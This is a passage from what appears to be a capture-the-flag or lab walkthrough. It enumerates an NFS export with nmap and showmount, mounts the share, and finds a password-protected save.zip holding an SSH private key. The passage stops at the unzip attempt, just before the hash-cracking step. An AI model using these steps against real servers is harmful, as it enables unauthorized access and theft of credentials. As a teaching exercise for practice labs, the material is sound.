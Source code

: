 		|_
		| nfs-statfs: 
		|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
		|_  /srv/nfs    7205476.0  1859504.0  4960232.0  28%   16.0T        32000
		| nfs-showmount: 
		|_  /srv/nfs 172.16.0.0/12 10.0.0.0/8 192.168.0.0/16
		MAC Address: 50:3E:AA:20:11:4B (Tp-link Technologies)

		Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds


- The above script runs all three scripts on this server.
- What interesting is we found a share open and in it we have 'id_rsa' which is the private key for ssh.

- To confirm the mount share, we can use another tool called 'showmount' to print out the exported share.

		$>> showmount -e 192.168.100.219
		Export list for 192.168.100.219:
		/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

- This command list all the exports.

### 4. Mounting the share

- Creating a directory locally to mount the share on.

		$>> mkdir /tmp/mount

- Mounting the share on.

		$>> sudo mount -t nfs 192.168.100.219:/srv/nfs /tmp/mount/ -o nolock

- This will mount the share on local system directory.

- In /tmp/mount/ directory you will find 'save.zip' file.

		┌─[whoami@parrot]─[/tmp/mount]
		└──╼ $ls
		save.zip

### 5. unzip and cracking hash

- The file 'save.zip' has root privileges.
- As you control over your local system, 'su' to login as root.

- Use 'unzip' to extract the file, but it needs the password.

		┌─[root@parrot]─[/tmp/mount]
		└──╼ #unzip save.zip 
		Archive:  save.zip
		[save.zip] id_rsa password: 
			skipping: id_rsa                  incorrect password
			skipping: todo.txt                incorrect password
